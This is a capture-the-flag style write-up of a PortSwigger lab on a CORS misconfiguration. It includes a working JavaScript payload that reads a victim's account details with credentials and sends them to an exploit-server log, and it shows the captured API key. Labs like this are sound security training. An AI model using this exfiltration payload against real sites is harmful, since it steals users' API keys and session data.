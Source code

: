 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/5aea67dd-52db-4579-bb8a-3f4a4bd8c746)

### Solution

first we login using the given credentials

Once logged in , we can see that there is an email update functionality & the API key of wiener

In the HTTP history tab, we can see that the GET request to /accountDetails contains the ACAC=true header in its response.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/a4b1326c-fac7-493e-bae7-0a63b09eaa98)

This meaans that if we can able to exploit CORS here then we can able to get the session cookie, API key etc of the user.

Exploiting CORS misconfiguration -

If we try to provide Origin: vulnerable.com , we can see that there is Access-Control-Allow-Origin: malicious.com & Access-Control-Allow-Credentials: true in the response.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/a7276cae-9747-4f4a-93c6-4efdc2cc441a)

This means the server takes the Origin provided in the request and sends it back in the response with the header Access-Control-Allow-Origin: <origin.com>.

Go to exploit server and paste the following code.

```js
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a01008d04b304068119168900c1005c.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='/log?key='+this.responseText;
};
</script>
```

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/7946d86f-f470-4cc9-8334-f7718894d735)

access log

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/881171b5-beec-4e74-a498-9e5d6e0c1049)

api key `Rv1tdW9QEjYmqxnjpGiogRNSp4yEatuy`

go and submit solution to solve the lab.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/08d3a649-8382-443b-945d-e60706eccbbd)

lab solved succesfully.
